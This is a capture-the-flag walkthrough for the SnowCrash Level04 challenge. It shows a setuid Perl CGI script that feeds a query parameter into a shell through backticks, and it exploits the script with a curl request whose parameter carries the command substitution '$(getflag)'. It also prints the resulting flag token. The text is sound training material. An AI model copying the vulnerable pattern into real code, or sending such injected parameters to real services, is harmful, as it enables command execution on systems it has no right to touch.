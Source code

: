 # Level04

## Walkthrough

We check the content of the home directory.

```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ file level04.pl 
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```
It looks like the file `level04.pl` is a **Perl** script, and as in the last level, the `s` on `level04` permissions indicates the **setuid bit**.

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We analyze the script, and quickly understand that it defines a subroutine which receives a parameter and pass it with the `echo` command right after.  
It imports the **CGI** interface to process HTTP requests, and gets the query parameter `x` which is then passed to the subroutine.
The line `# localhost:4747` could also be a hint: the script is probably running on our machine.

```bash
level04@SnowCrash:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=2004 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::4646                 :::*                    LISTEN      -               
tcp6       0      0 :::4747                 :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::4242                 :::*                    LISTEN      - 
```

The `netstat` command confirms that a process is running on port **4747**.  
With all the collected information, we can get the current flag by sending a HTTP request to **localhost** on port **4747**, with the param `x` set to a command substitution (in our case `getflag`), to run the command during the execution of the Perl script.

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Resources

- [Perl](https://en.wikipedia.org/wiki/Perl)
- [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface)

